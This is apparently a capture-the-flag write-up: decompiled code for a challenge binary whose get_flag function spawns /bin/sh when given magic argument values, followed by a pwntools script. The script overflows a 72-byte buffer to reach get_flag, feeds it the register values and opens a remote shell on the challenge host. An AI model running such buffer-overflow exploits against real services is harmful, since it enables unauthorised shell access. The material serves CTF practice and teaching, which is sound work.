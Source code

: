 ```
00401237      int64_t var_78
00401237      __builtin_memset(s: var_78, c: 0, n: 0x30)
0040124b      printf(format: "rax: ")
00401263      int64_t var_50
00401263      __isoc99_scanf(format: &data_40205b, &var_50)
00401274      printf(format: "rbx: ")
0040128c      int64_t var_58
0040128c      __isoc99_scanf(format: &data_40205b, &var_58)
0040129d      printf(format: "rcx: ")
004012b5      int64_t var_60
004012b5      __isoc99_scanf(format: &data_40205b, &var_60)
004012c6      printf(format: "rdx: ")
004012de      int64_t var_68
004012de      __isoc99_scanf(format: &data_40205b, &var_68)
004012ef      printf(format: "rsi: ")
00401307      int64_t var_70
00401307      __isoc99_scanf(format: &data_40205b, &var_70)
00401318      printf(format: "rdi: ")
00401330      __isoc99_scanf(format: &data_40205b, &var_78)
00401353      return 0
```

And for the ```get_flag()``` function:
```
00401354  void get_flag(int64_t arg1, int64_t arg2, int64_t arg3, int64_t arg4)

00401395      if (arg1 == 0x1337 && arg2 == 0xcafebabe && arg3 == 0xdeadbeef && arg4 == 4)
0040139e          void* const var_18 = "/bin/sh"
004013a2          int64_t var_10_1 = 0
004013bd          execve("/bin/sh", &var_18, 0, &var_18)
```

All we need to do is setup the registers with the required values. Since this is 64 bit, we need to put arg1 in ```rdi```, arg2 in ```rsi```, arg3 in ```rdx```, and arg4 in ```rcx```. If this was 32 bit, we would need to push the arguments onto the stack before calling the function. So without further ado, the exploit:
```
#!/usr/bin/env python3

from pwn import *

get_flag_addr = 0x00401354
offset = 72

r = remote('forever.isss.io', 1304)

payload = b'A'*72 + p64(get_flag_addr)
rdi = p64(0x1337)
rsi = p64(0xcafebabe)
rdx = p64(0xdeadbeef)
rcx = 4
null = p64(0x00)

r.sendline(payload)
r.sendline(b'0')
r.sendline(b'0')
r.sendline(b'4')
r.sendline(b'3735928559')
r.sendline(b'3405691582')
r.sendline(b'4919')

r.interactive()
```
